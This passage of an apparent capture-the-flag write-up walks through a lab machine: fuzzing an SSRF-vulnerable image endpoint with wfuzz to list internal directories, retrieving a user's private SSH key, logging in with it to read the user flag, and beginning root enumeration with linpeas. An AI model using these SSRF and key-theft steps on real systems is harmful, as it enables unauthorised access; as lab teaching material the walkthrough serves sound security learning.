 After spending some time and not making any progress, I  fuzzed this again with another wordlist which gave me a lot more back.
```console
m3ga@kali:~$ wfuzz -u "http://10.10.106.27:8080/view_image" -d 'www=http://127.1:80/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -c --hw 37 
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000011:   200        43 L     115 W      1294 Ch     "templates"
000000113:   200        21 L     43 W       630 Ch      "uploads"
000000272:   200        17 L     35 W       420 Ch      "static"
000000400:   200        36 L     161 W      1270 Ch     "."
000001950:   200        17 L     35 W       474 Ch      ".cache"
000002572:   200        17 L     35 W       414 Ch      ".local"
000008706:   200        16 L     33 W       399 Ch      ".ssh"
```

The `.ssh` directory contains two files `id_rsa` and `authorized_keys`.

![](<Pasted image 20240928165436.png>){: w="700" h="300" .center }

The `id_rsa` file is a private key. 
![](<Pasted image 20240928220819.png>){: w="700" h="300" .center }

The `authorized_keys` file contains a public key of a user called `beth`.

![](<Pasted image 20240928220928.png>){: w="700" h="300" .center }

After copying the private key to our own machine, we can successfully SSH into the system using the private key and the username `beth`.

The `user.txt` file can be found inside the `__pycache__` folder.
```console
m3ga@kali:~$ nano id_rsa_beth
# paste private key and save
m3ga@kali:~$ chmod 600 id_rsa_beth 
m3ga@kali:~$ ssh beth@10.10.106.27 -i id_rsa_beth 
...
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)
...
beth@london:~$ cd __pycache__/
beth@london:~/__pycache__$ ls
app.cpython-36.pyc  gunicorn_config.cpython-36.pyc  user.txt
beth@london:~/__pycache__$ cat user.txt 
THM{[REDACTED]}
```

## Root Flag
### Enumeration
After running `linpeas` on the system, it shows that there are some services which are using binaries inside `beth`'s home directory, but it wasn't possible to do anything with them.
